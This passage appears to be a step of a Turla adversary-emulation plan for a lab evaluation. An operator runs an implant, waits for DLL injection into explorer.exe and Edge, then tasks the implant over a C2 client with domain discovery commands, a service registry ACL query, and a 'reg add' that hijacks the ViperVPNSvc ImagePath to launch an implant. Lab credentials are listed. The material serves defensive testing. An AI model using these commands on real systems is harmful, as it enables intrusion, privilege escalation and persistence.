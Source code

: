 * Double click and run NTFVersion.exe

:o: Wait 1 minute then close out of all tabs and sign out of the RDP session to `hobgoblin` as `Gunter`.

:arrow_right: Re-RDP to `hobgoblin (10.20.20.102)` as `Gunter`:

| Username   | Password |
| :--------: | :---------------: |
| skt\Gunter  | Password1! |

* Open Microsoft Edge and browse to `https://brieftragerin.skt.local/owa`.

:arrow_right: **Set a timer for 2 minutes** then switch to your Kali control server terminal and
confirm that a new implant has registered and the automated discovery output has been returned in
the server log.

**NOTE:** The injector will wait **2 minutes**, before injecting EPIC's Guard DLL into explorer.exe and,
subsequently, EPIC's worker DLL into Microsoft Edge.

* Within your Kali control server terminal window, right click and select "Split Terminal Horizontally". Be careful not to terminate the control server.

* In your lower terminal tab, copy and paste the first set of discovery commands:
```bash
cd /opt/day1/turla/Resources/control_server
./evalsC2client.py --set-task 218780a0-870e-480e-b2c5dc 'exe | net group "Domain Admins" /domain && net group "Domain Computers" /domain && net group "Domain Controllers" /domain && tasklist /svc'
```

* :heavy_exclamation_mark: Verify that the `ViperVPNSvc` service shows up in the tasklist output towards the end.

```bash
grep 'ViperVPNSvc' logs.txt -i
```

* This should return:
    * >```
      >viperVpn.exe                  <PID> ViperVPNSvc
      >```

* Wait for the command to return before tasking the next command to query the service and who can access it:
```bash
./evalsC2client.py --set-task 218780a0-870e-480e-b2c5dc 'exe | reg query HKLM\SYSTEM\CurrentControlSet\Services\ViperVPNSvc && powershell "$(Get-Acl -Path HKLM:\SYSTEM\CurrentControlSet\Services\ViperVPNSvc).Access"'
```

* Wait for the command to return before tasking EPIC to modify the misconfigured ViperVPNSvc service to use our implant to execute:

```bash
./evalsC2client.py --set-task 218780a0-870e-480e-b2c5dc 'exe | reg add "HKLM\system\currentcontrolset\services\ViperVPNSvc" /t REG_EXPAND_SZ /v ImagePath /d "cmd.exe /c %TEMP%\mxs_installer.exe" /f'
```
